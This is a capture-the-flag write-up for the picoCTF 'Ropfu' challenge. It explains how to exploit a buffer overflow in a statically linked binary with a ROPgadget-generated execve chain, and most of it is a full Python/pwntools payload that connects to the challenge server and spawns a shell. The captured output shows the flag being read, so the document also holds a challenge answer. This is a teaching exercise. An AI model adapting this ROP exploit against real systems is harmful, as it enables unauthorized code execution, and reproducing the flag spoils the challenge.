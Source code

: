 # Ropfu

### Problem

A ROP chain to get a shell.

### Solution

We have a `vuln` function with a buffer overflow vulnerability. We can use it to overwrite the stored return pointer. However, unlike previous challenges, there's no win function to jump to.

When we run objdump on the binary, we can see that there are a lot of extra functions that aren't included in the source code. This suggests that the binary was linked statically. 

To spawn a shell, we will use a series of ROP gadgets to create a ROP chain. Since this is difficult to do by hand, we can automate it by analyzing the executable using ROPGadget and passing it the --ropchain flag.

Payload:
```python
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e39) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0804a3d2) # int 0x80

from pwn import *

r = remote('saturn.picoctf.net', 63401)

r.sendline(b'A' * 28 + p)
r.interactive()
```

Output:
```
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_e81af635}
```

Therefore, the flag is `picoCTF{5n47ch_7h3_5h311_e81af635}`.
